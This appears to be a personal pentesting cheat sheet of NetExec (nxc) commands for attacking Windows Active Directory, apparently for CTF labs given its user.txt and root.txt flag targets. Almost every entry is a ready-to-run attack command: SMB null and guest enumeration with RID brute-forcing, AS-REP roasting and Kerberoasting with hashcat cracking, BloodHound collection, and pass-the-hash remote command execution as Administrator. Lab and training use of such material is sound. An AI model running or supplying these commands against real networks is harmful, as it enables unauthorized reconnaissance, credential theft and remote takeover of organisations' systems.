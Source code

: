 # nxc
#plateform/linux #target/remote #cat/ATTACK

## nxc smb spider module
```
nxc smb <ip>  -u  <user> -p '<passwd>' -M spider_plus 
```

## nxc2 for generating HOST File
```
nxc smb <ip> --generate-hosts-file hosts_file 
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```

## Get SID of Domain
```
nxc ldap -u <user> -p <passwd> -dc-ip <ip> --get-sid
```

## Check kcache tickets
```
nxc smb <ip> -k --use-kcache -u <user> -X "whoami"
```

## Generate krb5 file
```
nxc smb <ip> -u <user> -p <password> --generate-krb5-file <out_file>
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat user.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'powershell -c "Get-ChildItem -Path C:\users -Recurse -Force -Filter user.txt -ErrorAction SilentlyContinue | % { Write-Host \"Found at: $($_.FullName)\"; Get-Content $_.FullName }"'
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
